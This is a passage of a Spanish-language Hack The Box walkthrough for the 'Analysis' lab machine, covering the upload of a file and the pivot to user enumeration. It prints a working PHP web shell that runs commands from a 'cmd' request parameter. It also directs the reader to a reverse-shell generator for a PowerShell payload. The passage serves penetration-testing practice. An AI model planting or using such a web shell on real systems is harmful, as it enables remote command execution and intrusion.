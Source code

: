 ![](/assets/img/HTB-Analysis/5_Analysis.png)

```bash
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Una vez subimos el archivo, tenemos que ver en que ruta se encuentra y este se localiza aquí `http://internal.analysis.htb/dashboard/uploads/pwned.php`, ahora mediante el parámetro `cmd`, que le agregamos, vemos si podemos ejecutar comandos.
![](/assets/img/HTB-Analysis/6_Analysis.png)

Ahora nos vamos <a href="https://www.revshells.com/">aquí</a> y usamos la `Powershell #3 (Base64)` para entrablar una conexión.
![](/assets/img/HTB-Analysis/7_Analysis.png)

## Pivotar de usuario
Estamos como el usuario `svc_web`, no podemos ver la flag del usuario aún, así que toca enumerar. Podemos buscar si hay alguna credencial, almacenada.

